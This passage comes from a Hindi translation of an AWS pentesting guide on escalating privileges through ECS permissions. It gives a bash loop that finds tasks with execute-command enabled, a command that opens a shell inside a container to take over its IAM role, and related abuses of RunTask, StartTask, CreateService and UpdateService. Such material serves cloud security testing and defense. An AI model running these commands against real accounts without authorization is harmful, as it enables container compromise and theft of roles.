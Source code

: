 एक हमलावर **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** के साथ **कमांड चला सकता है** एक चल रहे कंटेनर के अंदर और इसके साथ जुड़ी IAM भूमिका को बाहर निकाल सकता है (आपको वर्णन अनुमतियों की आवश्यकता है क्योंकि `aws ecs execute-command` चलाने के लिए यह आवश्यक है)।\
हालांकि, इसे करने के लिए, कंटेनर इंस्टेंस को **ExecuteCommand एजेंट** (जो डिफ़ॉल्ट रूप से नहीं है) चल रहा होना चाहिए।

इसलिए, हमलावर को कोशिश कर सकता है:

* **हर चल रहे कंटेनर में एक कमांड चलाने की कोशिश करें**
```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
echo "Cluster $cluster"
for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
echo "  Task $task"
# If true, it's your lucky day
aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
--command "sh" \
--cluster "$CLUSTER_ARN" \
--task "$TASK_ARN"
```
* अगर उसके पास **`ecs:RunTask`** है, तो `aws ecs run-task --enable-execute-command [...]` के साथ एक टास्क चलाएं।
* अगर उसके पास **`ecs:StartTask`** है, तो `aws ecs start-task --enable-execute-command [...]` के साथ एक टास्क चलाएं।
* अगर उसके पास **`ecs:CreateService`** है, तो `aws ecs create-service --enable-execute-command [...]` के साथ एक सेवा बनाएं।
* अगर उसके पास **`ecs:UpdateService`** है, तो `aws ecs update-service --enable-execute-command [...]` के साथ एक सेवा अपडेट करें।

आप **पिछले ECS प्राइवेस्क खंडों** में **इन विकल्पों के उदाहरण** देख सकते हैं।

**संभावित प्रभाव:** कंटेनर्स से जुड़े एक विभिन्न भूमिका में प्राइवेस्क।

### `ssm:StartSession`

जांचें **ssm प्राइवेस्क पेज** में कैसे आप इस अनुमति का दुरुपयोग करके **ECS में प्राइवेस्क** कर सकते हैं:

{% content-ref url="aws-ssm-privesc.md" %}
[aws-ssm-privesc.md](aws-ssm-privesc.md)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

जांचें **ec2 प्राइवेस्क पेज** में कैसे आप इन अनुमतियों का दुरुपयोग करके **ECS में प्राइवेस्क** कर सकते हैं:

{% content-ref url="aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](aws-ec2-privesc.md)
{% endcontent-ref %}
